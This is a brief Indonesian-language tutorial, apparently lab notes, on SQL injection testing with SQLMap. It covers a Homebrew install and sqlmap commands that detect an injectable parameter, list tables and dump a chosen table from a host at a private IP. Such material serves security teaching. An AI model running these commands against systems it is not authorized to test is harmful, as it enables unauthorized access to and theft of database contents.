 # Pengujian SQL Injection Menggunakan SQLMap
## Instalasi SQLMap menggunakan Homebrew
Lakukan instalasi `brew install sqlmap`
![](/assets/sqlmap/1.png)
## Pengujian SQL Injection menggunakan SQLMap
1. Untuk melakukan pengecekan pada parameter, apakah mengandung vulnerable `sqlmap --url="http://10.151.36.103/?match=1" --level 5 --risk 3 --dbms mysql`
![](/assets/sqlmap/2.png)
2. `sqlmap --url "http://[alamat yang dituju]/?match=1" --dump -D [database yang diinginkan] -T [tabel yang diinginkan]`
![](/assets/sqlmap/3.png)
3. `sqlmap --url "http://10.151.36.103/?match=1" --tables`
![](/assets/sqlmap/4.png)



